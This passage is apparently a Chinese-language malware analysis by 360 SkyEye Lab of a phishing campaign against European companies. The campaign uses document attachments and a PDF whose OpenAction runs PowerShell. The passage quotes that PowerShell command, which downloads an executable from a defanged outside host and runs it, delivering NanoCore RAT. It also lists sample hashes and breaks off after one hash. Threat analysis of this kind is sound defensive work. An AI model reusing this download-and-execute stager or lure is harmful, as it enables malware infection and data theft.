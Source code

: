 > 原文链接: https://www.anquanke.com//post/id/84248 


# 360天眼实验室：某个商业定向攻击活动分析


                                阅读量   
                                **153360**
                            
                        |
                        
                                                                                    



**概述**

人在做,天在看。

近期360天眼实验室监测到一些可疑电子邮件样本,内容虽然都是通常的采购订单、索要发票为主的通常社工套路,但投递的对象主要为欧洲的一些商业公司。邮件包含一些文档类型的附件(DOC、Excel、PDF等),受害者尝试打开浏览时会提示不能正常显示信息,需要启用宏才可以。当手工点击启用导致恶意宏代码得到执行以后,样本将释放或者下载下一步的恶意代码并执行,以此控制受害者的计算机并窃取敏感信息。从投递的目标和所窃取的信息来看,我们认为这是一类针对欧洲特定从业人员的商业定向攻击行为。

<br>

**样本分析**

一开始引起注意的邮件MD5:2040e6c0705c5b78d615c827f4a9ccbf

[![](https://p3.ssl.qhimg.com/t01e10739fd30adfbcf.png)](https://p3.ssl.qhimg.com/t01e10739fd30adfbcf.png)

其内容如下:

[![](https://p3.ssl.qhimg.com/t013dc22bbc2147c342.png)](https://p3.ssl.qhimg.com/t013dc22bbc2147c342.png)

邮件带了一个PDF文件,对应的MD5为:ab3a27dd7bbee2f7a477dac5efe9655c

PDF文件包含OpenAction指令,打开文件时将会启动powershell,由powershell下载并执行hxxp://www[.]winprop.com.sg/zxml/check/july1.exe

[![](https://p0.ssl.qhimg.com/t010468126d0549edba.png)](https://p0.ssl.qhimg.com/t010468126d0549edba.png)

代码明文如下:

PowerShell   -ExecutionPolicy Bypass -command

(New-Object   System.Net.WebClient).DownloadFile('hxxp://www[.]winprop.com.sg/zxml/check/july1.exe',”$env:APPDATAsyshelper.exe”);

Invoke-Item   (”$env:APPDATAsyshelper.exe”)

将PE样本下载下来,发现是一个.NET程序,将其脱壳后确认是NanoCoreRAT,一种商业间谍软件,支持多种功能和插件,主要被用于窃取感染用户的敏感信息、密码等,另外有多种功能和插件,下面用我们关联到的其中一个样本做简单的分析:

样本SHA256:ffa42109954d7b79afc862a2a7ec828afe3b9c008731c7c7d175a41b1bb9332c

[![](https://p5.ssl.qhimg.com/t015fc37cc24cc42a51.png)](https://p5.ssl.qhimg.com/t015fc37cc24cc42a51.png)
